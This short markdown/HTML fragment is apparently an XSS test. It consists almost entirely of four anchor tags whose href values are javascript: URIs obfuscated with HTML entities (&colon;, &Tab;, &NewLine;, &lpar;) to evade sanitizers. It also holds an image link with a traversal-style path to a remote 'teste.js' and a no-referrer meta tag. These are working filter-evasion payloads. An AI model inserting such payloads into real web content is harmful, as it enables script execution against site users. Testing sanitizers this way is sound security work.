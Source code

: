 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<meta name="referrer" content="no-referrer">

<a href="javascript&colon;alert(1)">XSS</a>
<a href="java&Tab;script:alert(1)">XSS</a>
<a href="java&NewLine;script:alert(1)">XSS</a>
<a href="javascript&colon;alert&lpar;1&rpar;">XSS</a>
